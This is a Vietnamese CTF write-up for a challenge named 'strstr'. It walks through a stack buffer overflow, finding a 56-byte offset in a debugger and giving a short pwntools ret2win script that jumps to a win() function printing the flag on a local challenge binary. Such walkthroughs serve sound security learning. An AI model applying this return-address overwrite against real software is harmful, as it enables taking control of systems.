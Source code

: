 ### Write up strstr 
Với bài này em overflow nhẹ nhẹ và nó dump, tức là có lỗi buffer overflow, tràn lên return nên core nó dump 

![image](https://github.com/antkss/writeUP/assets/88892713/d46a4ff8-004d-456e-82ea-ad608f6a9c6f)



check ida, phát hiện hàm này để lấy flag

```c++
int win()
{
  return system("cat flag.txt");
}
```

bây h em tìm offset từ lúc mà em nhập dữ liệu tới return 


![image](https://github.com/antkss/writeUP/assets/88892713/08069853-234a-4b09-82d2-08731417b5d5)


đây chính là địa chỉ lúc nhập dữ liệu 
```c++
$rsi = 0x00007fffffffe5d0
```
nhìn vào ta thấy, đây là địa chỉ của return "0x00007fffffffe608"


![image](https://github.com/antkss/writeUP/assets/88892713/4351b5a1-8054-4402-9f9a-7618275e8567)

lấy địa chỉ return trừ địa chỉ từ lúc nhập dữ liệu là ra offset 


![image](https://github.com/antkss/writeUP/assets/88892713/6ca8e5a2-6692-4948-9f7a-e51c8a68448f)


tiếp theo là viết script đề nó return to win, lấp đầy dữ liệu của các địa chỉ trước đó bằng 56 chữ a và cuối cùng địa chỉ của hàm win sẽ nằm ở return 

```c++
#!/usr/bin/python3

from pwn import *

context.binary=exe=ELF('./chall', checksec=False)
p = process('./chall')
#p=process(exe.path)
#input()
payload = b'A'*56
payload += p64(exe.sym['win']+1)
p.sendafter(b's play', payload)

p.interactive()

```
flag đã được lấy ra 


![image](https://github.com/antkss/writeUP/assets/88892713/b863cc69-aabd-4564-82f2-2c542c6869ab)
